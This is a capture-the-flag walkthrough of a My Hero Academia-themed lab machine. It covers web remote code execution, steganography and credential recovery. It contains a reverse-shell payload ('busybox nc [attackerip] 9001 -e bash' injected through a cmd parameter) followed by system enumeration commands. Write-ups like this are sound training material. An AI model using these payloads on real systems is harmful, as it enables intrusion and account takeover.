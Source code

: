 ```bash
$ echo "dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK" | base64 -d
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

That provided me Remote Code Execution (RCE), so I attempted to gain a reverse shell using busybox and URL-encoded the payload with Burp Suite's Hexavector plugin:
```bash
GET /assets/index.php?cmd=<@urlencode>busybox nc [attackerip] 9001 -e bash</@urlencode>
```

I started a Netcat listener and successfully received the reverse shell. While enumerating the system, I discovered a directory called `Hidden_Content`, which contained a file named passphrase:
```bash
www-data@myheroacademia:/var/www$ ls
  Hidden_Content  html
www-data@myheroacademia:/var/www$ cd Hidden_Content/
www-data@myheroacademia:/var/www/Hidden_Content$ ls
  passphrase.txt
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt 
  Q[removed]=
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt | base64 -d
  A[removed]!
```

## Privilege Escalation deku

With the passphrase, I wasn't able to switch to user `deku`. Continuing my enumeration, I found two `jpg` images in the `images` directory:
```bash
www-data@myheroacademia:/var/www/html/assets/images$ ls
  oneforall.jpg  yuei.jpg
```

Upon analyzing the images, I noticed that the magic numbers of `oneforall.jpg` where corrupted:
```bash
$ xxd oneforall.jpg | head                                               
00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
```

After correcting it using `hexedit`, the magic numbers matched the `jpg` extension:
```bash
00000000: ffd8 ffe0 0010 4a46 4946 0001 0101 0048  ......JFIF.....H
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
```

I then attempted to extract hidden data using `steghide`. Initially, I found nothing when using no password, but after trying the passphrase I had discovered earlier, `steghide` successfully extracted a `creds.txt` file:
```bash
kali@kali:~/ctf/uahighschool$ cat creds.txt            
  Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

  deku:O[removed]A
```
